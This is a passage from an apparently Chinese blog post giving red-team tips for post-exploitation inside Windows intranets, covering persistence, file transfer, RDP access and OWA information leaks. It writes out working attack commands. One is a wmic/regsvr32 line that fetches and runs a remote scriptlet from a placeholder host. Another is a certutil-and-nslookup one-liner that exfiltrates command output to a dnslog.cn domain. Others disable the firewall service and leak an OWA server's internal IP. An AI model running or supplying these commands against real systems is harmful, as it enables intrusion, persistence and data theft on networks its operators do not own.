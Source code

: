 我们做权限维持的目的是这个时间点没有收集到或者错过了收集到一些敏感的东西，所以我们权限维持等待时机，比如键盘记录，cmd 命令记录，如果是 linux 的，我们可以 ssh 劫持。

常用的权限维持技巧，自启动，利用 acl 添加普通用户的完全访问权限，利用 DCSync 在域内维持权限等方法。

  
**（5）文件传输**

网上也说了很多，我也再说说吧，

除了常见的 python,certuili,bitadmin,wget,curl,ftp 等  
  

js,hta，vbs 等这类脚本也可用写入下载的内容

  
或者运用 csc 编译我们写好的 dowoload.cs、也可以用 wmic

wmic process call create "regsvr32 /s /n

/u/i:http://xxxxx:1337/as.txt scrobj.dll" 这样调用

  
**（6）内网的一些小技巧**

1. 当某些软件正在运行或者权限不够我们看不了，我们可以 copy 到一个位置然后在 type

  
2. 如果某些环境出现中文名而且我们的 c2 工具因为字符不能识别无法正常渗透，可以考虑写入 bat 或者 vbs

  
3. 当我们 mstsc 连接出现问题时，我们可以 mstsc /admin mstsc /console

  
4. 当我们 echo 一个一个字符追加，但是换行了，可以这样

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFBJKQpEo0VLzWS3o7HI9d3hrlUtcZSX4o6g0xY6EQia6NiafgvLiapaMTxuFwXl06BAic1SKqZU1E5OQ/640?wx_fmt=png)

5. 拿到 shell，但是 cmd 没有回显

cmd /c whoami > temp && certutil -encode -f temp temp&&FOR /F "eol=- delims=" %i IN (temp) DO (set =%i & cmd /c nslookup %_:~0,-1%. 6utb0b.dnslog.cn)&del temp

  
6. 如若 3389 登不上，普通方法都检测了，试试 net stop sharedaccess 关闭筛选，如果想多用户登录，可以尝试使用 rdpwrap 这个软件。

  
7.echo 123 > axgg::$INDEX_ALLOCATION \ 创建文件夹，有什么用，mysql udf 没有 plugin 的时候

删除：rd axgg::$INDEX_ALLOCATION

  
8. 比如我们的命令被禁用或者匹配了其规则，其余思路自由发展  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFBJKQpEo0VLzWS3o7HI9d3UiacibhobiasF5rPXQtbQXA0icT4JFEpI9LWszczicCAo4q9qjaxOiaKLqlg/640?wx_fmt=png)

  
9. 当我们遇到 owa 的时候，只要将 HTTP 协议版本修改成 1.0，然后去掉 http 头里面的 HOST 参数，会返回服务器所在的内网 IP，对 OWA 屡试不爽  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFBJKQpEo0VLzWS3o7HI9d3y2x5mD6IvAnnTyMwQWjZa0UwpZyQ27y2lwZp7kW1lmTdFYj0IJatVw/640?wx_fmt=png)

  
此外，/owa/auth/trace.axd 会暴露 OWA 版本和内网的代理 IP 信息

**  
10. 如果想降权的话可以用 runas 起一个进程**
